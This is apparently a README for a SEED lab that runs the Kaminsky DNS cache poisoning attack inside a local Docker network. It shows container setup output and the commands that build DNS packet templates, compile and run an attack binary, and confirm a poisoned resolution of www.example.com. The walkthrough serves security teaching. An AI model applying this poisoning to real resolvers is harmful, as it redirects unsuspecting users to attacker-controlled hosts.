


# DNS cache poisoning attack

The [DNS cache poisoning lab](https://seedsecuritylabs.org/Labs_20.04/Networking/DNS/DNS_Remote/), carries out the [Kaminsky attack](https://duo.com/blog/the-great-dns-vulnerability-of-2008-by-dan-kaminsky) on a local LAN setup

See the [task](./assets/task.pdf) outline for more details.

## Setup
Use the container setup provided [`docker-compose.yml`](./hosts/docker-compose.yml) file in [hosts/](./hosts/) folder. This will spawn 4 machines(containers) corresponding to an attacker, user, local DNS server and the attacker's nameserver.

```bash
$ docker-compose up --build
[+] Building 8.5s (29/29) FINISHED                                                                                                         docker:desktop-linux
 => [user internal] load .dockerignore                                                                                                                     0.0s
 => => transferring context: 2B                                                                                                                            0.0s
 => [user internal] load build definition from Dockerfile                                                                                                  0.0s
 => => transferring dockerfile: 351B                                                                                                                       0.0s
 => [user internal] load metadata for docker.io/handsonsecurity/seed-ubuntu:large                                                                          2.8s
 => [attacker internal] load build definition from Dockerfile                                                                                              0.0s
 => => transferring dockerfile: 170B                                                                                                                       0.0s
 => [attacker internal] load .dockerignore                                                                                                                 0.0s
 => => transferring context: 2B                                                                                                                            0.0s
 => [attacker_ns internal] load .dockerignore                                                                                                              0.0s
 => => transferring context: 2B                                                                                                                            0.0s
 => [attacker_ns internal] load build definition from Dockerfile                                                                                           0.0s
 => => transferring dockerfile: 231B                                                                                                                       0.0s
 => [attacker_ns internal] load metadata for docker.io/handsonsecurity/seed-server:bind                                                                    3.0s
 => [local-server internal] load build definition from Dockerfile                                                                                          0.0s
 => => transferring dockerfile: 327B                                                                                                                       0.0s
 => [local-server internal] load .dockerignore                                                                                                             0.0s
 => => transferring context: 2B                                                                                                                            0.0s
 => [user auth] handsonsecurity/seed-ubuntu:pull token for registry-1.docker.io                                                                            0.0s
 => [attacker_ns auth] handsonsecurity/seed-server:pull token for registry-1.docker.io                                                                     0.0s
 => [attacker 1/2] FROM docker.io/handsonsecurity/seed-ubuntu:large@sha256:41efab02008f016a7936d9cadfbe8238146d07c1c12b39cd63c3e73a0297c07a                5.0s
 => => resolve docker.io/handsonsecurity/seed-ubuntu:large@sha256:41efab02008f016a7936d9cadfbe8238146d07c1c12b39cd63c3e73a0297c07a                         0.0s
 => => sha256:cecb04fbf1ddcacd54be2d13a954a7f89d719d4d9b89fe6e4b1b768134bef5b5 5.56kB / 5.56kB                                                             0.0s
 => => sha256:da7391352a9bb76b292a568c066aa4c3cbae8d494e6a3c68e3c596d34f7c75f8 28.56MB / 28.56MB                                                           0.7s
 => => sha256:2c2d948710f21ad82dce71743b1654b45acb5c059cf5c19da491582cef6f2601 162B / 162B                                                                 0.6s
 => => sha256:41efab02008f016a7936d9cadfbe8238146d07c1c12b39cd63c3e73a0297c07a 2.20kB / 2.20kB                                                             0.0s
 => => sha256:14428a6d4bcdba49a64127900a0691fb00a3f329aced25eb77e3b65646638f8d 847B / 847B                                                                 0.8s
 => => sha256:b5e99359ad228ee94790d5329bbcbacde1e723452c4c2399e8ea3631ff93e1b2 52.67MB / 52.67MB                                                           1.6s
 => => extracting sha256:da7391352a9bb76b292a568c066aa4c3cbae8d494e6a3c68e3c596d34f7c75f8                                                                  1.0s
 => => sha256:3d2251ac15525371b588c872fc56625824269d91702772b353c5815bb90ab0a9 1.51MB / 1.51MB                                                             2.1s
 => => sha256:1059cf0870552f1dd8ea6b92bd4da7590ce9e2ee906dbba8b0b521a09874ff18 11.18MB / 11.18MB                                                           2.5s
 => => sha256:b2afee80009132e9257c19d37827622b7c5b9c66ab81a12c0071ef60fbcf3263 4.63kB / 4.63kB                                                             2.1s
 => => extracting sha256:14428a6d4bcdba49a64127900a0691fb00a3f329aced25eb77e3b65646638f8d                                                                  0.0s
 => => extracting sha256:2c2d948710f21ad82dce71743b1654b45acb5c059cf5c19da491582cef6f2601                                                                  0.0s
 => => extracting sha256:b5e99359ad228ee94790d5329bbcbacde1e723452c4c2399e8ea3631ff93e1b2                                                                  2.3s
 => => sha256:c2ff2446bab70e6c0d9976393a78e1438c490d49c0d0f8fee8a8cdbda90a2e1e 246B / 246B                                                                 2.6s
 => => sha256:4c584b5784bd056e688b06e452bb7272954d09cda0943eb7e363c8cafa427905 218B / 218B                                                                 2.6s
 => => extracting sha256:3d2251ac15525371b588c872fc56625824269d91702772b353c5815bb90ab0a9                                                                  0.0s
 => => extracting sha256:1059cf0870552f1dd8ea6b92bd4da7590ce9e2ee906dbba8b0b521a09874ff18                                                                  0.6s
 => => extracting sha256:b2afee80009132e9257c19d37827622b7c5b9c66ab81a12c0071ef60fbcf3263                                                                  0.0s
 => => extracting sha256:c2ff2446bab70e6c0d9976393a78e1438c490d49c0d0f8fee8a8cdbda90a2e1e                                                                  0.0s
 => => extracting sha256:4c584b5784bd056e688b06e452bb7272954d09cda0943eb7e363c8cafa427905                                                                  0.0s
 => [user internal] load build context                                                                                                                     0.0s
 => => transferring context: 292B                                                                                                                          0.0s
 => [attacker_ns internal] load build context                                                                                                              0.0s
 => => transferring context: 1.47kB                                                                                                                        0.0s
 => [attacker_ns 1/2] FROM docker.io/handsonsecurity/seed-server:bind@sha256:e41ad35fe34590ad6c9ca63a1eab3b7e66796c326a4b2192de34fa30a15fe643              5.1s
 => => resolve docker.io/handsonsecurity/seed-server:bind@sha256:e41ad35fe34590ad6c9ca63a1eab3b7e66796c326a4b2192de34fa30a15fe643                          0.0s
 => => sha256:e41ad35fe34590ad6c9ca63a1eab3b7e66796c326a4b2192de34fa30a15fe643 1.16kB / 1.16kB                                                             0.0s
 => => sha256:bbf95098dacffa07a92af60e0d7d3cbe2c83a4afd307059bcd216616f25d9400 4.19kB / 4.19kB                                                             0.0s
 => => sha256:da7391352a9bb76b292a568c066aa4c3cbae8d494e6a3c68e3c596d34f7c75f8 28.56MB / 28.56MB                                                           0.5s
 => => sha256:14428a6d4bcdba49a64127900a0691fb00a3f329aced25eb77e3b65646638f8d 847B / 847B                                                                 0.5s
 => => sha256:2c2d948710f21ad82dce71743b1654b45acb5c059cf5c19da491582cef6f2601 162B / 162B                                                                 0.4s
 => => extracting sha256:da7391352a9bb76b292a568c066aa4c3cbae8d494e6a3c68e3c596d34f7c75f8                                                                  1.0s
 => => extracting sha256:14428a6d4bcdba49a64127900a0691fb00a3f329aced25eb77e3b65646638f8d                                                                  0.0s
 => => extracting sha256:2c2d948710f21ad82dce71743b1654b45acb5c059cf5c19da491582cef6f2601                                                                  0.0s
 => => sha256:2c821fdd764b0a309a2ce5c1314fd362e6368831b587758d02e317dd370c7175 40.36MB / 40.36MB                                                           3.5s
 => => extracting sha256:2c821fdd764b0a309a2ce5c1314fd362e6368831b587758d02e317dd370c7175                                                                  1.5s
 => [local-server internal] load build context                                                                                                             0.0s
 => => transferring context: 1.91kB                                                                                                                        0.0s
 => [attacker 2/2] RUN echo "export PS1='$(whoami)@attacker [$(pwd)] $ '" >> $HOME/.bashrc                                                                 0.4s
 => [user 2/4] COPY resolv.conf /etc/resolv.conf.override                                                                                                  0.2s
 => [user 3/4] COPY start.sh /                                                                                                                             0.0s
 => [user 4/4] RUN  chmod +x /start.sh                                                                                                                     0.2s
 => [attacker] exporting to image                                                                                                                          0.0s
 => => exporting layers                                                                                                                                    0.0s
 => => writing image sha256:0a36e460962012c70a0f0c1a29ffb7a94de588f29c5e39e715d7454352e520d5                                                               0.0s
 => => naming to docker.io/library/seed-attacker                                                                                                           0.0s
 => [local-server 2/4] COPY named.conf           /etc/bind/                                                                                                0.0s
 => [attacker_ns 2/2] COPY named.conf  zone_attacker32.com  zone_example.com  /etc/bind/                                                                   0.0s
 => [attacker_ns] exporting to image                                                                                                                       0.0s
 => => exporting layers                                                                                                                                    0.0s
 => => writing image sha256:5ec333f7fd0ee15e8d5543f248ac94eebdf77aa2066b6eb8742a911505f4ee16                                                               0.0s
 => => naming to docker.io/library/seed-attacker_ns                                                                                                        0.0s
 => [local-server 3/4] COPY named.conf.options   /etc/bind/                                                                                                0.0s
 => [user] exporting to image                                                                                                                              0.0s
 => => exporting layers                                                                                                                                    0.0s
 => => writing image sha256:336f6501d47f509174a0d378c1b4d536b7c7925ec4b1d2619f1c8f0c50071ec8                                                               0.0s
 => => naming to docker.io/library/seed-user                                                                                                               0.0s
 => [local-server 4/4] RUN echo "export PS1='$(whoami)@localdns: [$(pwd)] $ '" >> $HOME/.bashrc                                                            0.2s
 => [local-server] exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                                    0.0s
 => => writing image sha256:2b90115fb16d12d95dbe47f7eebb6be17bba9716bf107141e2a81d51133ad558                                                               0.0s
 => => naming to docker.io/library/seed-local-dns-server                                                                                                   0.0s
[+] Running 9/1
 ✔ Network seed-net                                                                                                                                            Created0.0s
 ✔ Container seed-attacker                                                                                                                                     Created0.0s
 ✔ Container user-10.9.0.5                                                                                                                                     Created0.0s
 ✔ Container local-dns-server-10.9.0.53                                                                                                                        Created0.0s
 ✔ Container attacker-ns-10.9.0.153                                                                                                                            Created0.0s

Attaching to attacker-ns-10.9.0.153, local-dns-server-10.9.0.53, seed-attacker, user-10.9.0.5
local-dns-server-10.9.0.53  |  * Starting domain name service... named   [ OK ]
attacker-ns-10.9.0.153      |  * Starting domain name service... named   [ OK ]
```

Check if the 4 containers corresponding to a user, attacker, local DNS server and attacker nameserver are up and running.
```bash
$ docker container ls -a
CONTAINER ID   IMAGE                   COMMAND                  CREATED              STATUS              PORTS     NAMES
e0c844eaa393   seed-user               "/start.sh"              About a minute ago   Up About a minute             user-10.9.0.5
69e03ee74a88   seed-local-dns-server   "/bin/sh -c 'service…"   About a minute ago   Up About a minute             local-dns-server-10.9.0.53
6f99d85e92de   seed-attacker_ns        "/bin/sh -c 'service…"   About a minute ago   Up About a minute             attacker-ns-10.9.0.153
8eef9f1214a4   seed-attacker           "/bin/bash"              About a minute ago   Up About a minute             seed-attacker
```

## Launching the attack

In order to launch the attack, we must compile the attack binary from the provided [attack.c](./attack.c) source. This in-turn requires us to generate a DNS query and response template binaries, which are generated using the [scapy](https://scapy.net/) library for Python.

### Create DNS query and response templates

```bash
$ python dns.py -ql
$ python dns.py --reply true
```
This will generate the necessary DNS query and response template binaries (viz. `ip_req.bin` & `ip_resp.bin`)

### Compile the attack binary
```bash
$ gcc attack.c -o attack
```

### Drop in to the attacker container.

```bash
$ docker exec -it 8eef9f1214a4 /bin/bash

root@attacker [/] $ ls
bin  boot  dev	etc  home  lib	lib32  lib64  libx32  media  mnt  opt  proc  root  run	sbin  srv  sys	tmp  usr  var  volumes
```

Here, the DNS templates and the attack binary that we just compiled are mounted on the `/volumes` directory in the attcker container.
```bash
root@attacker [/] $ cd volumes/
root@attacker [/volumes] $ ls
assets  attack  attack.c  dns.py  examples  hosts  ip_req.bin  ip_resp.bin
```

### Execute the attack.
```bash
root@attacker [/volumes] $ ./attack

ip, txn: 898051015, 0
ip, txn: 897919943, 0
ip, txn: 898051015, 256
ip, txn: 897919943, 256
ip, txn: 898051015, 512
ip, txn: 897919943, 512
ip, txn: 898051015, 768
ip, txn: 897919943, 768
ip, txn: 898051015, 1024
ip, txn: 897919943, 1024
ip, txn: 898051015, 1280
ip, txn: 897919943, 1280
ip, txn: 898051015, 1536
ip, txn: 897919943, 1536
...
...
...

^C

root@attacker [/volumes] $
```

## Results
The aim of the attack is to modify the DNS resolution of an arbitrary domain (www.example.com in this exercise) to point to a malicious IP provided by an attacker's name server instead.

In the user's container, we can see that `www.example.com` initially resolves to `93.184.216.43`.


After launching the attack, we see that the same domain now resolves to `1.2.3.5`, which matches the DNS resolution provided by an attacker nameserver (`ns.attacker32.com`)


